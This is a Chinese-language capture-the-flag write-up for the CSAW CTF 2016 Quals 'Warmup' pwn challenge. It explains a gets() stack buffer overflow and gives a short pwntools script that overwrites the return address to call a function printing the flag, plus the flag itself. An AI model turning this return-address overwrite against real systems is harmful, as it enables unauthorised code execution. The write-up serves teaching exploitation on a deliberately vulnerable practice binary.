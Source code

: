# CSAW CTF 2016 Quals: Warmup

分類：Pwn 分數：50

說明：So you want to be a pwn-er huh? Well let's throw you an easy one ;)

- [warmup](https://github.com/ctfs/write-ups-2016/raw/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/warmup)

## 解題

執行 binary 得到以下 output：

```
-Warm Up-
WOW:0x40060d
>
```

`WOW` 後面跟著的 address，用 Hopper Disassembler 找到是個叫 `easy` 的 function。這個 function 會執行 `system("cat flag.txt")`，所以只要 buffer overflow 覆寫 return address 到這個 address 就可以得到 flag。

![easy](easy.png)

這是題 50 分的熱身題，所以在 `main` 就能找到個簡單的 `gets()` buffer overflow bug。

![main](main.png)

64 bytes buffer，加上 stack 上的 8 bytes `$rbp`，總共要 72 bytes 去 overflow return address：

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
r.recv()
r.sendline("A"*72 + p64(0x40060d))
print r.recvline()
```

完整解答：[warmup.py](warmup.py)

## Flag

```
FLAG{LET_US_BEGIN_CSAW_2016}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/README.md